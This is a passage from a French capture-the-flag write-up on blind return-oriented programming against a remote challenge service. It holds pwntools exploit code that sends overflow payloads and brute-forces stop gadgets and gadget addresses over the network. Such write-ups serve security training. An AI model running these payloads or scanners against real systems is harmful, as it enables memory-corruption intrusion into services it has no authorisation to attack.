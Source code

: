 ```py
        pld = b"A"*40
        pld += p64(ret-2) # pop XXX; ret
        pld += p64(0x400000) # adresse où est mappé le binaire en mémoire, on devrait donc y retrouver le magic number d'un ELF : "\x7fELF"
        pld += p64(rip)

        r.sendline(pld)
        try:
            res = r.recvall(timeout=2)
        except:
            print(hex(ret), hex(rip))
            break
        if b"\x7fELF" in res:
            print("\n" + hex(ret), hex(rip), res)
```
Comme le programme a mis beaucoup de temps et que la supposition de l'adresse de la PLT me semblait douteuse, j'ai décidé de recommencer à zéro.

## Deuxième tentative

![here_we_go_again](here_we_go_again.gif)

En regardant les différents stop gadgets obtenus auparavant, celui-ci m'a intrigué : `0x40066d b'Thanks AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAm\x06@\x84(\xad\xfb'`.
En effet, les derniers bytes retournés ne viennent pas de notre payload, c'est peut-être un `printf` ou un `puts` dont un argument pointe vers `\x84(\xad\xfb`.
On garde la même base que précédemment pour rechercher un `pop XXX; ret`, mais en rajoutant un peu de multi-threading (fortement inspiré par [https://www.youtube.com/watch?v=dQw4w9WgXcQ](https://www.youtube.com/watch?v=dQw4w9WgXcQ) :
```py
from pwn import *
import threading

# réelle inspiration pour le multi-threading :) : https://www.youtube.com/watch?v=OAk23u9b-88

print_gadget = 0x40066d

lock = threading.Lock()
it = iter(range(0x400000, 0x405000))

def get_next():
    with lock:
        res = next(it)
    return res

def find_stop_gadget():
    while True:
        addr = get_next()

        print(".", end="", flush=True)

        r = remote("challenges2.france-cybersecurity-challenge.fr", 4008)
        r.recvuntil(">>> ")

        pld = b"A"*40 + p64(addr)
        r.sendline(pld)

        res = r.recvall(timeout=2)
        if res and res != b"Thanks " + pld.replace(b"\x00", b"") + b"Bye!\n" and res != b"Thanks " + pld.replace(b"\x00", b""):
            print("\n" + hex(addr), res)

        r.close()
```